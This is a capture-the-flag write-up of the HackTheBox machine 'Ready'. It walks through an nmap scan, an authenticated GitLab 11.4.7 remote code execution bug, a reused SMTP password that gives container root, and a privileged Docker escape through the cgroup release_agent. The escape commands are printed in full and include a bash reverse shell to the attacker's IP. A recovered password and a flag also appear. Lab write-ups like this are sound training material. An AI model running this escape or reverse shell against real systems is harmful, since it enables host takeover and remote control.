



## Overview

HackTheBox staff have definitely been relishing slamming GitLab these past few months. First we got Laboratory that was vulnerable to Local File Inclusion (LFI) to Remote Code Execution (RCE) and then we got the box we are covering today, Ready.

The initial attack vector just goes straight to RCE (no fluffing around with cookie deserialization like in Laboratory), followed by a little bit of enumeration to eventually escape from a Docker container.

---

## Initial Foothold

Like always you start with a port scan as the first step of enumeration. You could try the hardcore method and just blindly guess random port numbers (to be fair this might work for a chunk of boxes). However, that strategy would of taken incredible amount of time for this box, since I found a service running on port 5080 that was running GitLab *(again...)*.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-22 13:03 AWST
Nmap scan report for ready.htb (10.10.10.220)
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
```

The first thing I tried was the LFI to RCE exploit that was the foothold vector for Laboratory. Unfortunately, I did not start this box sooner and HTB staff had already patched those vulnerabilities (from what I heard reading the forum).

However, navigating to `http://ready.htb:5080/help` while authenticated revealed that the GitLab version was 11.4.7, which is vulnerable to RCE!



Our Holy Cyber Security Messiah LiveOverflow has gifted all of us both an amazing [video](https://www.youtube.com/watch?v=LrLJuyAdoAg) and [blog article](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) explaining this vulnerability in far better detail than I could.

**TLDR**: The RCE is triggered by targeting redis using Server Side Request Forgery (SSRF) and Carriage-Return/Line-Feed (CRLF) injection.

I was feeling a bit lazy so I found a [Proof of Concept (PoC) on Github](https://github.com/mohinparamasivam/GitLab-11.4.7-Authenticated-Remote-Code-Execution) and made some modifications so it actually worked. I removed the unnecessary headers, proxy routing for Burp Suite and changed the payload so it gave me a TTY reverse shell; just the classic anti-script kiddy shenanigans.



*Bingo we are in!*

---

## Getting the User Flag

I went to `/home/dude` and ran `ls -al`

```
git@gitlab:/home/dude$ ls -al
ls -al
total 24
drwxr-xr-x 2 dude dude 4096 Dec  7 16:58 .
drwxr-xr-x 1 root root 4096 Dec  2 10:45 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:58 .bash_history -> /dev/null
-rw-r--r-- 1 dude dude  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dude dude 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dude dude  655 May 16  2017 .profile
-r--r----- 1 dude git    33 Dec  2 10:46 user.txt
```

Oh neat, I am part of the group `git`! Let's just get the flag.

```
git@gitlab:/home/dude$ cat user.txt
cat user.txt
e1e30b052b6ec0670698805d745e7682
```

*Super hard!*

---

## Getting <s>Root</s> Fake Root

After spending several hours trying to get the user flag, I did the usual manual enumeration around the box. The first thing that I found that seemed *too good to be true* was the file `/root_pass`. That was a lie and I could not use it for anything.

I continued searching and find some interesting backups at `/opt/backup`.

```
git@gitlab:/opt/backup$ ls -al
ls -al
total 112
drwxr-xr-x 2 root root  4096 Dec  7 09:25 .
drwxr-xr-x 1 root root  4096 Dec  1 16:23 ..
-rw-r--r-- 1 root root   872 Dec  7 09:25 docker-compose.yml
-rw-r--r-- 1 root root 15092 Dec  1 16:23 gitlab-secrets.json
-rw-r--r-- 1 root root 79639 Dec  1 19:20 gitlab.rb
```

Classic me, I immediately went down a rabbit hole and spent a solid 30 minutes investigating if I had to use `gitlab-rails` again because the initial root password was set in `docker-compose.yml`...

```
git@gitlab:/opt/backup$ grep "gitlab_rails" docker-compose.yml
grep "gitlab_rails" docker-compose.yml
        gitlab_rails['initial_root_password']=File.read('/root_pass')
```

*That was another lie.*

The whole time a sneaky password was in `gitlab.rb`. Only problem is that the file has 1853 lines, but fortunately the majority were commented. I was too lazy to go through the whole file, so I used `grep` to just filter for the uncommented lines.

```
git@gitlab:/opt/backup$ grep -v "^#" gitlab.rb | grep -v "^$"
grep -v "^#" gitlab.rb | grep -v "^$"
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

No idea why the SMTP password was the only thing set in `gitlab.rb`, besides it being the password for a different user... classic HTB move there. I could already switch users since I spawned a TTY reverse shell when I got initial, but if you do not have a TTY shell to switch users you can just run the following command.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Checking if the password is for the `root` account gives us the treasure!

```
git@gitlab:/opt/backup$ su root
su root
Password: wW59U!ZKMbG9+*#h

root@gitlab:/opt/backup#
```
However...

**SIKE!**

**THAT ROOT IS A LIE AND WE DO NOT HAVE THE FLAG!**

```
root@gitlab:~# ls -al
ls -al
total 24
drwx------ 1 root root 4096 Dec 13 15:06 .
drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:56 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Dec  7 16:49 .ssh
-rw------- 1 root root 1565 Dec 13 15:06 .viminfo
```

*Looks like I have to do a bit more work :(*

---

## Getting Real Root

Alright I was being a bit silly in the last section and knew beforehand that I was most likely trapped in a Docker container (`/.dockerenv` and `/opt/backup/docker-compose.yml` were fairly strong indicators). To double check that I was jailed in a container, I checked if `/proc/1/cgroup` gives me some information about where I am.

```
root@gitlab:~# cat /proc/1/cgroup
cat /proc/1/cgroup
12:perf_event:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
11:net_cls,net_prio:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
10:memory:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
9:blkio:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
8:cpu,cpuacct:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
7:hugetlb:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
6:pids:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
5:freezer:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
4:devices:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
3:rdma:/
2:cpuset:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
1:name=systemd:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
0::/system.slice/containerd.service
```

As I thought, I was trapped in a Docker container.

However, it is not a very secure container since I noticed from `/opt/backup/docker-compose.yml` that the container is running with the *privileged* flag on.

```
root@gitlab:~# grep "privileged" /opt/backup/docker-compose.yml
grep "privileged" /opt/backup/docker-compose.yml
    privileged: true
```

We can escape from a Docker container if we have the following requirements [using this PoC](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container).

- [x] We are the `root` user on the container.
- [x] The docker container is running with the *privileged* flag on.

Oh guess what, we already have those requirements. Following the PoC I linked above I was able to get a reverse shell as the `root` user on the host machine.

*Commmands*
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```

*We are in!*


*Ignore my brainfart moment where I forget where `root.txt` was located...*

---

## Conclusion

Ready was an *alright* box in my opinion. It would of been a better box if the initial foothold did not involve GitLab, just like Laboratory that was released only a month before this one.

I did notice that Laboratory and Ready both had the same underlying theme, and that is lying to us. Laboratory was rated as an easy box when it should of been rated as medium (meme below was made by me) and Ready was dishonest about getting root.


I honestly felt like the ratings for the boxes should of been flipped. Laboratory had a super cool yet difficult method to get initial foothold. Meanwhile, the initial vector for Ready was cool, but was not difficult to do.

For Ready though, my favourite part was getting the user flag...

*jk*

It was actually escaping the Docker container, that was pretty neat and I quite enjoyed doing that.

Hope you enjoyed reading this write up of mine, I will be doing more over the next few weeks so keep tuned!
